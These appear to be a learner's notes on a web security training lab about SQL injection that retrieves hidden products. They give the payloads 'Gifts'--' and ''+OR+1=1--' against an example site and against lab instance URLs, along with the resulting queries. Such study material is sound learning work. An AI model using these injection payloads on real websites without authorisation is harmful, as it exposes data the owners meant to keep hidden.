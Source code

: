 Sql-injection, Retreving hidden data

# example
https://insecure-website.com/products?category=Gifts'--
This results in the SQL query:
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

similiar attack:
https://insecure-website.com/products?category=Gifts'+OR+1=1--
This results in the SQL query:
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

# task 1
Display one or more unreleased products from url: https://0ae200b804d220698181024f0041001e.web-security-academy.net/

- Click page gifts or another pages. Then the url will change to: https://0ae200b804d220698181024f0041001e.web-security-academy.net/filter?category=Gifts
- Check that link can inject use =' in `category=Gifts  `
  If `=Gifts%27--` happen then inject the web succesfully
  `https://0a6700e50488aea483815a09007500e6.web-security-academy.net/filter?category=%27`
  which means: SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
  (But problem not solved yet)

- Use Another attack with: SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
- `https://0a6700e50488aea483815a09007500e6.web-security-academy.net/filter?category=%27+or+1=1--`

Problem Solved

